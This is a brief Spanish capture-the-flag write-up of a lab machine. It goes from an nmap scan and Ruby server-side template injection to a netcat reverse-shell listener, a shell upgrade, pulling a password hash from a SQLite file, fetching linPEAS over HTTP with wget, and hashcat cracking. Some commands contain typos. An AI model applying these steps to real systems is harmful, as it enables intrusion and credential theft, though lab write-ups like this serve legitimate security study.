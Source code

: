 kali- Al hacer un nmap obtenemos un servicio web abierto 
- Entramos y vemos que hay unos recuadores de texto que devuelven texto 
- Intento fallido de gobuster de conseguir directorios
- Lanzan error de malicious input al intentar inyectar codigo
- Comprobamos que la web usa ruby
- copiamos un server-side-template-injection traducido a ruby
- Usamos burpsuite para comprobar si podemos inyectar el ssti desde ahi ,convirtiendolo a URL encode keycharacter 
- PARA NUEVA LINEA %0A
- exito, por tanto iniciamso una escucha a un puerto (nc -lvnp 9001)
- 'which+bash+' = /ust/bin/bash por tanto python3
- which+python3 = /ust/bin/bash/python3
- revshells.com descargamos para python3 y encodeamos a url
- python3 -c 'import pty;pty.spawn/"/bin/bash")'
- suspendemos 
- stty raw -echo;fg
- export TERM = xterm
- cogemos el user.txt
- vemos que hay un arhcivo con las credenciales
- con file (archivo) vemos qeu tipo de archivo se trata
- entramos con sqlite3 (archivo)
- conseguimos hash intentamos crackearlo
- fallo , con john y con hashcat , buscamos otra manera
- creamos un servidor python3 : python3 -m http.server 9090
- descargamos  desde la reverse shell con wget (http://ip:puerto/archivo) el PEAS
- le damos permiso de ejecucion con chmod  +x
- ejecutar PEAS y buscar por archivo importantes en este caso importante en MAIL
- encontramos estructura de contraseña
- con el hash previo : hashcat